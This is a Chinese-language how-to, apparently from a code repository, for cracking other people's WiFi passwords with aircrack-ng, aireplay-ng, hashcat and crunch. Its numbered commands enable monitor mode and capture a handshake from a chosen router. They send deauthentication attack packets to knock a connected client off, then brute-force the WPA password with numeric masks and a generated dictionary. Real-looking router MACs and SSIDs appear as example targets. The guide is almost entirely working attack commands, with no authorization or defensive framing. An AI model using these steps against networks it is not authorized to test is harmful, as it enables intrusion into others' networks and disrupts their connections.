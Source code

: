 # 破解 WIFI 密码

### 0. 查wlan0支持模式中有无监听（monitor）模式

~~`sudo iwconfig wlan0 mode`~~

经实践，此命令不能查(Debian)

### 1. 改成监听模式(改后wlan0就成了wlan0mon)

`sudo airmon-ng start wlan0`

### 2. 查看周围无线信息(也可以指定信道排除想排除的，例如 -c 1，只看信道为1的wifi连接情况;--bssid WIFI的MAC，只看某个WIFI的连接情况。)

`sudo airodump-ng wlan0mon`

记一两组想破解的BSSID（WIFI的MAC）和STATION（已连接的客户端MAC）

现以 `80:8F:1D:83:42:76` 和 `90:AD:F7:FA:8E:10` 为例。

最好也把WIFI名称（SSID）也记下来，例如：TP-LINK_4275，以备后用。

### 3. 模拟抓包(--ivs 包文件的格式为ivs，-c 指定为1信道，-w 指定包文件包为wifipass)

`sudo airodump-ng --ivs -c 1 -w wifipass --bssid 80:8F:1D:83:42:76 wlan0mon`

此窗口不要关，再开窗口发攻击包，观察这里的右上角，看有无出现 handshake ，出现则是包被抓到，未出现则继续增加攻击包。

### 4. 发攻击包（-0 发99个包，不够再加，赋值为0的话就是一直发）

`sudo aireplay-ng -0 99 -a 80:8F:1D:83:42:76 -c 90:AD:F7:FA:8E:10 wlan0mon`

### 5. 跑密码
两种方式：
1. 用air自带的方式，需要字典文件 dict.txt，比较慢。

    `sudo aircrack-ng wifipass-01.ivs -w dict.txt`

2. 用 hashcat  的方式， -m 2500 就是模式为 WPA

    先用 aircrack-ng 转换包的格式
    
    `sudo aircrack-ng wifipass-01.ivs -J wifipass.hccap`

    再用 hashcat 跑8位的纯数字密码（进度可以按s查看）
    
    `hashcat -m 2500 -a 3 --force wifipass.hccap "?d?d?d?d?d?d?d?d"`

    hashcat 字典模式
    
    `hashcat -m 2500 --force wifipass.hccap dict.txt`

    用 crunch 生成8位和9位的纯数字字典（第1个8为最少8位，第2个9为最多9位）
    
    `crunch 8 9 0123456789 -o dict.txt`

### 6. 退出监听模式
`sudo airmon-ng stop wlan0mon`

TP-LINK_4275
80:8F:1D:83:42:76
90:AD:F7:FA:8E:10

### 7. 示例 
监听 `wlan1mon` 信号为 `CMCC-pbHs` 信道为 `11` 无线路由（AP）的MAC为 `AC:5A:EE:D3:FC:C0` 包保存到 `CMCC-pbHs.ivs` 文件

`sudo airodump-ng wlan1mon --essid CMCC-pbHs -c 11 --bssid AC:5A:EE:D3:FC:C0 --ivs -w CMCC-pbHs`


### 8. 用脚本生成字典
bash ./p3.sh >p.txt

```bash
$ cat p3.sh
for a in test Test TEST
do
        for b in 13800138000 18901234567 19880808
        do 
                for c in . @
                do
                        echo $a$b$c
                        echo $a$c$b
                        echo $b$c$a
                        echo $b$a$c
                        echo $c$a$b
                        echo $c$b$a
                done
        done
done
```
